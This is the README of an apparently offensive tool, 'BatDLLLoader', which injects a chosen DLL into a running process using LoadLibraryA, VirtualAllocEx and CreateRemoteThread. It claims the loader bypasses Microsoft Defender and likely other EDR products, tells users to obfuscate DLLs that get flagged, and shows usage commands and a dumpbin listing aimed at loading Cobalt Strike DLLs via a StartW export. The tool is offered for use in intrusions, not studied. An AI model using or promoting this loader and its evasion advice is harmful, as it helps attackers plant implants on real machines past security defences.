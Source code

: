 # BatDLLLoader

```
######     #    ####### ######  #       #       #       #######    #    ######  ####### ######  
#     #   # #      #    #     # #       #       #       #     #   # #   #     # #       #     # 
#     #  #   #     #    #     # #       #       #       #     #  #   #  #     # #       #     # 
######  #     #    #    #     # #       #       #       #     # #     # #     # #####   ######  
#     # #######    #    #     # #       #       #       #     # ####### #     # #       #   #   
#     # #     #    #    #     # #       #       #       #     # #     # #     # #       #    #  
######  #     #    #    ######  ####### ####### ####### ####### #     # ######  ####### #     # 
```

BatBasic BatDLL BatLoader and BatInjection into a BatProcess.

### BatBypass
- The current loader will bypass Defender (11/15/2023)
- The current loader will probably bypass other EDR like CrowdStrike, Avast. (Will be tested someday)
- Remember kids, if you drop your DLL's on disk and they get flagged, you need to obfuscate those too!

### ProcessInjection
- LoadLibraryA + VirtualAllocEx + CreateRemoteThread

### Code Modification
You need to modify this part of the code before you hope running your DLL's

```
FARPROC entry_point = GetProcAddress(dll, "StartW");
```

### Usage
You need to specify the PID and the DLL to inject

```
C:\Users\admin\Desktop>DLLLoadPID.exe
Usage: DLLLoadPID.exe <PID> <DLL>
```

```
C:\Users\admin\Desktop>DLLLoadPID.exe
Usage: DLLLoadPID.exe 3321 batmen.dll
```

With the proper DLLMain function of your DLL.
CobaltStrike DLL starts with a **StartW**.

```
Z:\>dumpbin /exports batmen.dll
Microsoft (R) COFF/PE Dumper Version 13.37.31337.0
Copyright (C) Microsoft Corporation.  All rights reserved.


Dump of file batmen.dll

File Type: DLL

  Section contains the following exports for temp.dll

    00000000 characteristics
    6511AD1C time date stamp Mon Sep 25 11:54:04 2023
        0.00 version
           1 ordinal base
           5 number of functions
           5 number of names

    ordinal hint RVA      name

          1    0 00001977 DllGetClassObject
          2    1 00001937 DllMain
          3    2 00001971 DllRegisterServer
          4    3 00001974 DllUnregisterServer
          5    4 00001980 StartW
```

